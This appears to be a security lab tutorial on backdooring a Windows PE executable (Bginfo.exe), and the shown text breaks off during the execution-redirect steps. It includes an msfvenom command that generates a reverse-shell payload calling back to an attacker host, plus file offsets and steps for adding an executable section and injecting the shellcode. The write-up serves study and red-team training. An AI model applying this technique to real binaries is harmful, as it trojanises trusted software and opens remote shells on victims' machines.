 # Backdooring PE Files with Shellcode
*The purpose of this lab is to learn the Portable Executable (PE) backdooring technique by adding a new readable/writable/executable code section with our malicious shellcode to any portable executable file.*

*High level process of this technique:*

*-Add a new RWX PE section, big enough to hold our shellcode, to any .exe file*  
*-Generate shellcode*  
*-Add shellcode to the newly created PE section*  
*-Redirect execution flow of the .exe file being backdoored to the shellcode*  
*-Redirect execution flow back to the legitimate .exe instructions*  

# Generate Shellcode
*First of, let's generate the shellcode so we know how many bytes of space we will need in the new PE section:*

```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 | hexdump -C```  
![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/fb73271e-7bcc-4e0f-bf7b-a0dab96a4d04)  
*Note that the shellcode size is 324 bytes - the new PE section will have to be at least that big.*

# New PE Code Section
*I randomly chose Bginfo.exe from sysinternals as a binary to be backdoored. Let's add a new PE section called  that will contain our shellcode - note the size is 200h bytes, so plenty for our shellcode which was only 324 bytes:*```.code1```

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/cbd3afd7-743d-4fb5-8229-f9e1e603967a)

*Note the Raw Address of the new section which is CD200 - this is where we will place the shellcode inside the file in later steps.*

*Let's make the new PE section writable/executable and mark it as  using CFF Explorer:*```contains code```

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/716391fe-41a2-4726-8d45-cda36285d1f8)

# Inserting Shellcode
*Let's copy the shellcode over to the new code section, starting at 0xCD200 into the file:*

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/a758cb03-9b26-49d3-8ec2-d90381932539)

# Testing the Shellcode
*Let's see if we can force the Bginfo.exe binary to execute our shellcode using debugger first. We need to find the base address of Bginfo.exe, which we see is 0x00400000:*

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/507dae91-e32c-4b2e-a1af-40da1979b3d4)

*Since the new section .code1 that holds our shellcode has an RVA 000D8000, we can find the shellcode in a running process at 00400000+00d8000 = ‭4D8000‬. Below shows that the bytes at cd200 (file offset) match those at 4d8000 while the bginfo.exe is running:*

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/d2a3b0a1-3a05-46dc-bddd-27901d1f548b)

*When debugging the binary, if we set the EIP to point to 4D8000‬ and let the debugger run, if we have a listener on the attacking system, we get the reverse shell which confirms that we can successfully execute the shellcode if we manage to redirect the code execution flow of bginfo.exe:*

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/d44f53e6-c25d-4a24-a435-a995e5b17d8d)

## i
*In the above screenshot,  and  are the first instructions at 4d8000 - it's not shown in this lab how those two instructions were inserted there, but there is no magic  - just add   bytes  before the shellcode at 0xCD200 in the bginfo and you're set.* ```pushad pushdf 60 9c```

# Redirecting Code Execution Flow
*In previous paragraph we confirmed the shellcode can be executed, but we did this manually, with help of a debugger. Now let's patch the binary, so that the process is automated and does not require our intervention.*

*The process of patching the binary to redirect the code execution flow is as follows:*

*1. Find the first instruction that is 5 bytes in size inside the bginfo.exe binary*  
  *1. We will overwrite this instruction with a jump to the shellcode as explained in step 2*
  *2. Prior to overwriting this instruction, write it down somewhere - we will need to append it to our shellcode later in order to restore the code   execution flow*
  *2. Write down the address of the next instruction to be executed next - after the shellcode has been executed, stack and registers restored, we     will jump back to this address to let the bginfo.exe continue as normal*
*2. Overwrite the instruction in step 1 with a jump to the shellcode at 4D8000‬*







